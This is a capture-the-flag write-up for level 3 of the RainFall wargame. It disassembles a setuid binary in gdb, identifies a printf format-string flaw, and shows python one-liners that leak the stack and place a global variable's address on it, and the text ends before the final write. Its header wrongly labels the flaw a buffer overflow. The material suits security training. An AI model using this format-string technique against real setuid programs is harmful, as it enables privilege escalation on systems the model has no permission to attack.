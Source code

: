 # Level 3

## Vulnerability

Buffer Overflow Exploit

## Context
```
level3@RainFall:~$ ls -l
-rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3
level3@RainFall:~$ ./level3
hello
hello
```
We have a binary that prints input from the stdin. 

## Solution
Let's take a look at the binary in gdb. 
```
(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:	push   %ebp
   0x0804851b <+1>:	mov    %esp,%ebp
   0x0804851d <+3>:	and    $0xfffffff0,%esp
   0x08048520 <+6>:	call   0x80484a4 <v>
   0x08048525 <+11>:	leave
   0x08048526 <+12>:	ret
End of assembler dump.
```
We can see here that ```level3``` makes a call to ```main()```, which makes a call to a function ```v()```. <br/>
Let's take a deeper look a ```v()```.<br/><br/>
We can see two function calls in ```v()```. <br/>
One is to ```fgets()```, which is protected against buffer overflow attacks. <br/>
The other is to ```printf()```, which is vulnerable to string format exploits. 
```
(gdb) disas v
[...]
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
```
We also find a global variable ```m``` at address 0x804988c.
```
(gdb) break v
(gdb) run
(gdb) info variables
0x0804988c  m
```
Back in ```v()```, we see a comparison of variable ```m``` to the value 64 (or $0x40 in hexadecimal).<br/>
If the comparison is not equal (```jne```), then the program quits.<br/>
If the comparison is true, the program makes a call to ```system()``` and launches a new shell. 
```
   0x080484da <+54>:	mov    0x804988c,%eax
   0x080484df <+59>:	cmp    $0x40,%eax
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   [...]
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave
```
We know that a ```printf()``` string with spurious % specifiers can be used to read whatever is on the stack. 
Let's try it out. We'll use the modifier ```%x```, which will print out addresses on the stack in hexadecimal.
```
level3@RainFall:~$ python -c 'print "AAAA %x %x %x %x %x %x %x"' | ./level3
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078
```
Interesting... We can see our buffer "AAAA" in the 4th position on the stack as ```41414141```.
This means that we can leverage ```printf``` to write our variable ```m```'s address, directly in the stack!
So let's replace our buffer "AAAA" with the address of the variable ```m``` (in little endian).
```
level3@RainFall:~$ python -c "print '\x8c\x98\x04\x08'+'%x %x %x %x'" | ./level3
�200 b7fd1ac0 b7ff37d0 804988c
```





